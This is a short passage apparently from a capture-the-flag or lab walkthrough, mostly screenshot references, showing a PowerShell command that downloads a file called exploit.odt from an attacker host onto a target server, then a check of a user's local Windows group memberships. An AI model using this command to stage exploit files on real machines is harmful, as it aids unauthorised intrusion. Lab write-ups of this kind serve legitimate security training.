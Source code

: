 ![](./IMG/54.png)

> And upload to target server 

```
iwr -uri http://10.10.14.122/exploit.odt -OutFile exploit.odt
```

![](./IMG/55.png)

> Check the local group which maya in it

1. Remote Management Use
2. Usuarios
3. Usuarios de escritori

![](./IMG/56.png)
